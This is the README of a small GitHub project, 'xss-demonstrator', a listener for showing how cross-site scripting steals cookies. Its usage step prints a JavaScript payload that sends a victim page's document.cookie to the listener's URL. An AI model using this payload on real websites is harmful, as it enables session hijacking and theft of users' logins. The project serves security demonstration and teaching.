

# xss-demonstrator

A simple interactive listener for demonstrating XSS attacks.



## Usage

1\. Start demonstrator 

```
npm start
```

2\. Execute an XSS payload on the victim webpage

```js
window.location = "http://localhost:8080/?" + document.cookie
```

3\. The webpage is opened with the stolen cookies in demonstrator

## Example

1\. Start demonstrator

```
npm start
```

2\. Start the example server

```
cd example
node server.js
```

3\. Open <http://localhost:8000/>

## Todo

* [ ] Add config feature
* [ ] Complete packaging
* [ ] Add tunneling proxy feature
* [ ] Add more information gathering features
* [ ] Add tests
* [ ] Add icon
* [ ] Add auto update

## See also

* BeEF <http://beefproject.com/> (for advanced purposes)
